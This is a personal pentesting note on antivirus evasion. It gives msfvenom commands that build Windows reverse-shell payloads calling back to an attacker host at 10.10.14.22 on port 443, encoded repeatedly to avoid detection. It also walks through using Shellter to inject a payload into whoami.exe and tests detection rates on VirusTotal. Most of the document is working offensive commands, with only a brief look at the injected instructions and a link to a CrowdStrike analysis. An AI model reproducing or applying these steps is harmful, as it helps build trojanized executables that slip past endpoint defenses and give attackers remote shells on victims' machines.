




# AV Evasion with Shellter

If payloads get shot down by windows defender. We can create a payload and use shellter to hide it:

```bash
# generate payload again but in a raw format
msfvenom -p windows/shell_reverse_tcp \
         LHOST=$my-ip \
         LPORT=443 \
         –e x86/shikata_ga_nai \
         -i 9 \
         -a x86 \
         -f raw \
         -o pwn.bin
# install shellter 
sudo dpkg --add-architecture i386
sudo apt update
sudo apt -y install wine32 shellter
# copy over a normal windows binary
find / -iname whoami.exe 2>/dev/null
cp /usr/share/windows-resources/binaries/whoami.exe .
# start binary
sudo shellter
```

Then add the payload pwn.bin` into the binary `whoami.exe` with the following steps:

```bash
Operation mode - A

Pe target: /home/kali/Documents/whoami.exe

Enable stealth mode: N

Use listed payload or custom: C

Select payload: /home/kali/Documents/pwn.bin

Is this payload reflective dll: N
```

Now take the resulting `whoami.exe` and upload it to [https://www.virustotal.com](https://www.virustotal.com/) to test if it will pass:


Ok, not bad. Let's try some other msf venom formats:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.22 LPORT=443 -a x86 -f vba -exe -e x86/shikata_ga_nai -i 50 -o pwn.vba

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.22 LPORT=443 -a x86 -f vbs -e x86/shikata_ga_nai -i 50 -o pwn.vbs

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.22 LPORT=443 -a x86 -f psh -e x86/shikata_ga_nai -i 50 -o pwn.ps1
```

Using the ps1 output we get...more detections:




Using the vbs with Stealth enabled we get even way more: 


So note to self, **don't** use stealth mode.

Shellter does a really good job rebuilding the binary so the payload is literally embedded. We will tear it apart later.




What if we used a different binary other than whoami.exe? Let's say [putty](https://the.earth.li/~sgtatham/putty/latest/w32/putty.exe) for example?

With the pwn.bin, looks like it got even more hits...


Seeing how shellter actually injects in the binary, we see a lot of bad instructions, and xor's followed by adds:



Where as if we check against the original whoami.exe, we see not as many crazy reds on the side, and the exact same address shows completely different:




For more on how shellter obfuscates and hides its code see this [crowdstrike post](https://www.crowdstrike.com/blog/how-shellter-is-used-to-bypass-antivirus-products/)